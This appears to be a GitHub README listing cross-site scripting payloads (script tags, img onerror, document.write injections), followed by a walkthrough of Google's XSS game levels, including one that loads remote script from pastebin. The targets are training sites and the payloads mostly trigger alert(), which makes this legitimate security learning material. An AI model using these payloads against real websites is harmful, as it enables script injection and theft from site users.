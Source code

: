 # Alerts and checks
```js
# Hover
<a onmouseover="alert('Hi!')">HOVER ME</a>
------------------------------------------

</span><img src=1 onerror=alert(1) /><span>
------------------------------------------

<script>alert("nu11secur1ty_is_here");</script>
------------------------------------------

<script>alert("Hello");</script>
--------------------------------
```
# Image Hidden
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("A Hidden scripted image, warning you are vulnerable!");</script>
```
- - - GIF
```bash
<script>function a() { document.write("<img src='https://media.giphy.com/media/y4E6VumnBbIfm/giphy.gif'></img>"); }; window.onload = a; alert("A Hidden scripted image, warning you are vulnerable!");</script>
```
# Image

```js
<img+src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp">
```

# Test 1
***The point of view***: **find POST, GET or INPUT and exploit them**

```url
https://xss-game.appspot.com/level1
```
- - Level 1

This is the most obvious and easiest one. Just insert following code and you're done:
```js
<script>alert(1)</script>
```
-------------------------------------------------------------------
- - Level 2

Since the `script` won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use `img` tags along with the `onerror` attributes. Here you go:
```js
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>

-----------------------------

<img src="http://inexist.ent" onerror="javascript:alert(01100110011011110111001000100000011001100110100101111000001000000110100101101101011011010110010101100100011010010110000101110100011001010110110001111001)"/>

------------------------------

<img src="http://inexist.ent" onerror="javascript:alert(111)"/>
```
--------------------------------------------------------------------
- - Level 3

Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see `index.html:`
```html
[...]
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
[...]
```
As you see the `num` parameter is used to generate the `img` tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the `onerror` attribute to insert JS. Insert this into the URL address bar and you'll get your `alert()`:

- - Exploit
```url
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
```
---------------------------------------------------------------
- - Level 4

This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting `https://xss-game.appspot.com/level4/frame?timer='` showed me following output:

```js
SyntaxError: unterminated string literal

startTimer(''');
```

Obviously there is again a way to escape the function and append the alert() call. I have tried several things:

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal

    startTimer('')');
```

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal


    startTimer('')');
```

And then I've decided to use some URL encoding: `%3B` represents the semi-colon.

- https://xss-game.appspot.com/level4/frame?timer=')%3B

```js
   SyntaxError: unterminated string literal


    startTimer('');');
```

Aha.. There you go! We can terminate the call and insert other ones. The final request:

- https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in


```js
startTimer('');alert(1);var b=('');
```

Boom: Nice one!

----------------------------------------------------------------------


- - Level 5

This one was quite easy. On the first page you can see a link: `https://xss-game.appspot.com/level5/frame/signup?next=confirm`. Now let's have a look how this `next` parameter is used in `confirm.html`:

```js
[...]
<script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
[...]
```

So the window.location is set based on the `next` parameter. This is a typical case for DOM based XSS. Besides that we have in `signup.html`:

```js
[...]
<br><br>
    <a href="{{ next }}">Next >></a>
</body>
[...]
```

Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
- Insert your Mail
- Click Next >>
- Voila!

-------------------------------------------------------------------------------

- - Level 6

This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```js
[...]
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
[...]
```
Afterwards the text after the hash is used as the scripts src:

```js
// Load this awesome gadget
scriptEl.src = url;
```

Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the `final PoC`:

- https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0

# Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

#####################################################################################

# test 2
```
http://testphp.vulnweb.com/
```
# find POST, GET or INPUT and exploit them

- - example:
```html
<form action="" method="GET">
  <input id="query" name="query" value="Enter query here..." onfocus="this.value=''">
  <input id="button" type="submit" value="Search">
</form>
```

- - MOre: https://owasp.org/www-community/xss-filter-evasion-cheatsheet
